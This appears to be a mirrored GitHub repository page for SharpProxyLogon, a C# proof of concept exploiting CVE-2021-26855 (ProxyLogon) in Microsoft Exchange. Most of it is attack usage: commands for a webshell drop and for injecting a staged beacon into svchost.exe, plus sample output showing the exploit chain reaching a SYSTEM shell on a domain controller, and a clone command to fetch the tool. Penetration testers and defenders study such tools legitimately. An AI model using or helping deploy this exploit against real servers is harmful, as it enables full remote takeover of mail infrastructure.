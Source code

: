 # SharpProxyLogon

C# POC for CVE-2021-26855 aka ProxyLogon, supports the classically semi-interactive web shell as well as shellcode injection 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Flangvik](https://github.com/Flangvik) |
| Url      | [https://github.com/Flangvik/SharpProxyLogon](https://github.com/Flangvik/SharpProxyLogon)                                               |
| Stars    | 227                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# SharpProxyLogon

C# POC for the ProxyLogon chained RCE

```
 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
```

Shellcode injection uses built-in [TikiTorch stub by @Rastamouse](https://github.com/rasta-mouse/TikiTorch), this will spawn, suspend and inject staged_beacon.bin into svchost.exe

```
SharpProxyLogon.exe 192.168.58.111:443 administrator@legitcorp.net C:\Temp\staged_beacon.bin "C:\Windows\System32\svchost.exe"

 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
[+] Got hostname DC01
[+] Got legacyDN /o=LEGITCORP/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=ae2513b106f343ab8c465ec254b105c6-Administrator
[+] Got mailBoxId 7844b192-ae6a-4a16-afe4-269900d5c40a@legitcorp.net
[+] Got accountSID S-1-5-21-2354578447-2549489838-160590685-500
[+] Patched accountSID-> S-1-5-21-2354578447-2549489838-160590685-500
[+] Got msExchEcpCanary lR_xIbkU4EeRa8k0G_ekSjy7CrzM9dgIeCdYK8sMbRQMUoAQMnEfYvHrvDLT1j2jJMFBrpxnJ1s.
[+] Got aspNETSessionID 0e8da60d-ff97-4748-80f1-5834caeba361
[+] Got OABId 1d2e2d98-c636-43c7-a3a9-8041b545d575
[+] Setting ExternalUrl...
[+] Triggering ResetOABVirtualDirectory...
[+] Shell should have landed, triggering injection
```

Example with classic webshell drop
```
SharpProxyLogon.exe 192.168.58.111:443 administrator@legitcorp.net

 __ _                        ___                       __
/ _\ |__   __ _ _ __ _ __   / _ \_ __ _____  ___   _  / /  ___   __ _  ___  _ __
\ \| '_ \ / _` | '__| '_ \ / /_)/ '__/ _ \ \/ / | | |/ /  / _ \ / _` |/ _ \| '_ \
_\ \ | | | (_| | |  | |_) / ___/| | | (_) >  <| |_| / /__| (_) | (_| | (_) | | | |
\__/_| |_|\__,_|_|  | .__/\/    |_|  \___/_/\_\\__, \____/\___/ \__, |\___/|_| |_|
                    |_|                        |___/            |___/
@Flangvik

Usage Shell: SharpProxyLogon.exe <targetip> <targetemail>
Usage x64 injection: SharpProxyLogon.exe <targetip> <targetemail> <shellcodepath.bin> <inject-target-full-path>
[+] Got hostname DC01
[+] Got legacyDN /o=LEGITCORP/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=ae2513b106f343ab8c465ec254b105c6-Administrator
[+] Got mailBoxId 7844b192-ae6a-4a16-afe4-269900d5c40a@legitcorp.net
[+] Got accountSID S-1-5-21-2354578447-2549489838-160590685-500
[+] Patched accountSID-> S-1-5-21-2354578447-2549489838-160590685-500
[+] Got msExchEcpCanary V7mF62VZA0ay793xWTSE07chwKLM9dgIQolVMbEnWJJkvonIUO8VWm2BZdIklFP35W-mtZnUZ4Y.
[+] Got aspNETSessionID 9028e0b3-e56c-4b33-b0e9-b66ab9ab9067
[+] Got OABId cabf9619-178d-4d3e-84a3-748ec598a477
[+] Setting ExternalUrl...
[+] Triggering ResetOABVirtualDirectory...
[+] Shell should have landed, going semi-interactive
CMD #>whoami
nt authority\system

CMD #>hostname
DC01

CMD #>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::2598:cc98:d369:b6ed%13
   IPv4 Address. . . . . . . . . . . : 192.168.58.111
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.58.2

CMD #>
```


## Get the content

```
git clone https://github.com/Flangvik/SharpProxyLogon
cd SharpProxyLogon
```

{% embed url="https://github.com/Flangvik/SharpProxyLogon" %}

<figure><img src="https://avatars.githubusercontent.com/u/23613997?v=4" alt=""><figcaption><p>Flangvik</p></figcaption></figure>
